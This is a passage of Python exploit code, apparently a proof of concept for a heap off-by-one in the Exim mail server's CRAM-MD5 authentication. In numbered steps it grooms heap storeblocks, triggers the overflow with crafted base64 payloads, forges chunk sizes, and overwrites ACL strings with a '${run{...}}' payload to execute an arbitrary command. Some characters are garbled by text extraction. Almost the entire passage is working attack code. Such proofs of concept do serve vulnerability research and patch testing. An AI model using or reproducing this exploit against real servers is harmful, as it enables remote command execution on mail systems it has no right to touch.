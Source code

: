 ```
    print("[+]2.send unknown commandn")
    docmd(s, "xee"*0x700)
    raw_input("""docmd(s, "xee"*0x700)n""")

    # 3. cut the second storeblock and release the first one
    print("[+]3.send ehlo again to cut storeblockn")
    ehlo(s, "c"*(0x2c00))
    raw_input("""ehlo(s, "c"*(0x2c00))n""")

    # 4. send base64 data and trigger off-by-one
    print("[+]4.overwrite one byte of next chunkn")
    docmd(s, "AUTH CRAM-MD5")
    payload1 = "d"*(0x2020-0x18-1)
    docmd(s, b64encode(payload1)+"EfE")
    raw_input("after payload1n")

    # 5. forge chunk size
    print("[+]5.forge chunk sizen")
    docmd(s, "AUTH CRAM-MD5")
    payload2 = p64(0x1f41)+'m'*0x70 # modify fake size
    docmd(s, b64encode(payload2))
    raw_input("modified fake sizen")

    # 6. relase extended chunk
    print("[+]6.resend ehlo, elase extended chunkn")
    ehlo(s, "a+")
    raw_input("ehlo(s, 'a+')")

    # 7. overwrite next pointer of overlapped storeblock
    print("[+]7.overwrite next pointer of overlapped storeblockn")
    docmd(s, "AUTH CRAM-MD5")
    raw_input("docmd(s, 'AUTH CRAM-MD5')n")
    acl_chunk = p64(0x5653564c1000+0x66f0)  #acl_chunk = &amp;heap_base + 0x66f0
    payload3 = 'a'*0x2bf0 + p64(0) + p64(0x2021) + acl_chunk
    try:
        docmd(s, b64encode(payload3)) # fake chunk header and storeblock next
        raw_input("after payload3")

        # 8. reset storeblocks and retrive the ACL storeblock
        print("[+]8.reset storeblockn")
        #ehlo(s, 'crashed') released
        ehlo(s, 'crashed')
        raw_input("ehlo(s, 'crashed')")

        # 9. overwrite acl strings
        print("[+]9.overwrite acl stringsn")
        #Occupy the first 0x2020 chunk
        payload4 = 'a'*0x18 + p64(0xb1) + 't'*(0xb0-0x10) + p64(0xb0) + p64(0x1f40)
        payload4 += 't'*(0x1f80-len(payload4))
        auth(s, b64encode(payload4)+'ee')
        #Occupy the second 0x2020 chunk
        payload4 = 'a'*0x18 + p64(0xb1) + 't'*(0xb0-0x10) + p64(0xb0) + p64(0x1f40)
        payload4 += 't'*(0x1f80-len(payload4))
        auth(s, b64encode(payload4)+'AA')
        raw_input("after payload4")
        #overwrite acl strings with shell payload
        payload5 = "a"*0x78 + "$`{`run`{`" + command + "`}``}`x00"
        auth(s, b64encode(payload5)+"AA")
        raw_input("after payload5")

        # 10. trigger acl check
        print("[+]10.trigger acl check and execute commandn")
        time.sleep(0.2)
```